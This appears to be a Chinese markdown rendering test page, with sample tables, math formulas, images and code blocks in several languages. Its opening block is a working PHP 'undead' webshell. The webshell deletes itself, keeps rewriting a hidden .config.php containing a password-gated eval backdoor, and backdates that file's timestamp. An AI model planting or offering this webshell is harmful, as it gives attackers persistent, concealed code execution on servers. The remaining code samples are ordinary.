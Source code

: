 + 简单的不死马示例

  ```php
  <?php
      ignore_user_abort(true);
      set_time_limit(0);
      unlink(__FILE__);
      $file = '.config.php';
      $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){<span class="label label-primary">@eval($_POST[a]);}</span> ?>';
      //pass=pass
      while (1){
          file_put_contents($file,$code);
          system('touch -m -d "2018-12-01 09:10:12" .config.php');
          usleep(5000);
      }
  ?>
  ```

  > 因为运行该 php 文件后，已经将该脚本读入并作为 opcode 进行运行
    > opcode 缓存



	### 表格测试

| 时间 | 项目名称 | 项目动态 | 其他 | 测试项1 | 测试项2 | 测试项3|
|----|-----------|--------------------------|--------|--------|--------|--------|
|2023-03-27|[**veinmind-tools**](detail/veinmind-tools.md)|更新 [v2.1.0](detail/veinmind-tools.md#最近更新) 版本|无|√|√|×|
|2023-03-21|[**pocsuite3**](detail/pocsuite3.md)|更新 [v2.0.3](detail/pocsuite3.md#最近更新) 版本|无|√|×|√|
|2023-03-12|[**CDK**](detail/CDK.md)|更新 [v1.5.2](detail/CDK.md#最近更新) 版本|无|√|√|×|
|2023-03-01|[**Antenna**](detail/Antenna.md)|更新 [v1.3.2](detail/Antenna.md#最近更新) 版本|无|√|×|√|
|2023-02-22|[**HaE**](detail/HaE.md)|更新 [v2.4.6](detail/HaE.md#最近更新) 版本|无|√|√|√|
|2023-02-15|[**GShark**](detail/gshark.md)|更新 [v1.1.4](detail/gshark.md#最近更新) 版本|无|√|√|√|
|2023-02-13|[**ENScanGo**](detail/ENScanGo.md)|更新 [v0.0.9](detail/ENScanGo.md#最近更新) 版本|无|√|×|√|
|2023-02-05|[**Viper**](detail/Viper.md)|更新 [v1.5.25](detail/Viper.md#最近更新) 版本|无|√|×|×|
|2023-02-04|[**afrog**](detail/afrog.md)|更新 [v2.2.1](detail/afrog.md#最近更新) 版本|无|√|×|√|
|2023-02-03|[**passive-scan-client**](detail/passive-scan-client.md)|更新 [v0.3.1](detail/passive-scan-client.md#最近更新) 版本|无|√|√|×|


数学公式测试
$$
\frac{1}{
  \Bigl(\sqrt{\phi \sqrt{5}}-\phi\Bigr) e^{
  \frac25 \pi}} = 1+\frac{e^{-2\pi}} {1+\frac{e^{-4\pi}} {
    1+\frac{e^{-6\pi}}
    {1+\frac{e^{-8\pi}}{1+\cdots}}
  }
}
$$

常见函数定义域如下

+ $y=\frac{a}{b}\Rightarrow(x\neq0)$
+ $y=\sqrt[2n]{x}\Rightarrow(x\geq0)$
+ $y=\sqrt[2n+1]{x}\quad\Rightarrow (x\in(-\infty,+\infty),x\in R)$
+ $y=\log_a{x}\Rightarrow(x>0)\quad$
+ $y=\tan{x}\Rightarrow(x \neq k\pi+\frac{\pi}{2})$
+ $y=\cot{x}\Rightarrow(x\neq k\pi)$
+ $y=\arctan{x},y=arccot{x}\Rightarrow(x\in R,x\in(-\infty,+\infty))$
+ $y=\arcsin{x},y=\arccos{x}\Rightarrow(x\in[-1,1])$


### 图片测试
1. 图片
   + 图片1

    ![](../static/img/code.png)

   + 图片2

    ![](../static/img/1683785041599.jpg)
### 不同代码块测试

```python
from flask import (
    Flask,
    render_template,
    url_for,
    redirect,
    session,
    request
)
from core.woker import WorkSpaceDataAllocate;
from core.basic import md5Enc_
from core.config import *;

import uuid;


template_folder = "../templates"
static_folder = "../static"

class ServerPanInfo:
    def __init__(self) -> None:
        self.key = str( uuid.uuid4() ).replace('-','');
        self.root = False;
```



```sh
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
LANG=en_US.UTF-8

CURL_CHECK=$(which curl)
if [ "$?" == "0" ];then
	curl -sS --connect-timeout 10 -m 10 https://www.bt.cn/api/wpanel/SetupCount > /dev/null 2>&1
else
	wget -O /dev/null -o /dev/null -T 5 https://www.bt.cn/api/wpanel/SetupCount
fi

if [ $(whoami) != "root" ];then
	echo "不是root权限"
	exit 1;
fi

cd ~
setup_path="/www"
python_bin=$setup_path/server/panel/pyenv/bin/python
cpu_cpunt=$(cat /proc/cpuinfo|grep processor|wc -l)
```



```html
<!DOCTYPE html>
<html lang="en" >
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="../static/js/jquery-3.6.3.min.js"></script>
    <script src="../static/js/popper.min.js"></script>
    <script src="../static/js/sweetalert.min.js"></script>
    <script src="../static/js/bootstrap_5.3/bootstrap.min.js"></script>
    <link rel="stylesheet" href="../static/css/bootstrap_5.3/bootstrap.min.css">
    <link rel="stylesheet" href="../static/css/index.css">

    <!-- ^hljs -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/highlight.js/styles/emacs.css" id="hljsCodeBlockColor">     <!--^ dark: native ;  light: emacs-->
    <script src="../static/Vditor3.9.0/dist/js/highlight.js/highlight.pack.js"></script>
    <script src="../static/js/highlight/highlightjs-line-numbers.min.js"></script>

    <!-- ^kateX.js -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/katex/katex.min.css">
    <script src="../static/Vditor3.9.0/dist/js/katex/katex.min.js"></script>

    <!-- ^Vditor/method.min.js -->
    <script src="../static/Vditor3.9.0/method.min.js"></script>

    <script src="../static/js/function.js"></script>
    <script src="../static/js/md2html.js"></script>
    <title>Document</title>
</head>
<body>
	Hello World!    
</body>
</html>
```



```js
Array.prototype.remove = function(...args){
    while(args.length > 1){
        this.remove(args.pop());
    }
    let index = this.indexOf(args[0]);
    while(index > -1){
        this.splice(index, 1);
        index = this.indexOf(args[0]);
    }
    return this; //注释
}
```



```cpp
#include "serialportthread.h"

serialportthread::serialportthread()
{
    moveToThread(this);
}

void serialportthread::run()
{
    PortSettings set = {BAUD115200,DATA_8,PAR_NONE,STOP_1,FLOW_OFF};
    myCom = new QextSerialPort("/dev/ttyUSB0",set);
    if(myCom->open(QIODevice::ReadWrite)){
        connect(myCom,SIGNAL(readyRead()),this,SLOT(onRead()));
        porthandle = new SerialPortReceive(this);
        connect(porthandle,SIGNAL(byteFinish(QByteArray)),this,SIGNAL(evt_serial_receive(QByteArray)));
        qDebug("ok");
    }else qDebug("no");
    this->exec();
}

void serialportthread::onRead()
{
    QByteArray ba =myCom->readAll();
    porthandle->dataHandle(ba);
}

void serialportthread::send(QByteArray ba)
{
    myCom->flush();
    myCom->write(ba);
}

void serialportthread::mysleep(int a)
{
    msleep(a);
}
```



```c++
#ifndef SERIALPORTTHREAD_H
#define SERIALPORTTHREAD_H

#include <QThread>
#include "./smarthome/qextserialport.h"
#include "./smarthome/serialportreceive.h"
class serialportthread : public QThread
{
    Q_OBJECT
public:
    explicit serialportthread();
    
signals:
    void evt_serial_receive(QByteArray);
private:
    QextSerialPort *myCom;
    SerialPortReceive *porthandle;
public slots:
    void run();
    void onRead();
    void send(QByteArray ba);
    void mysleep(int a);
};

#endif // SERIALPORTTHREAD_H
```

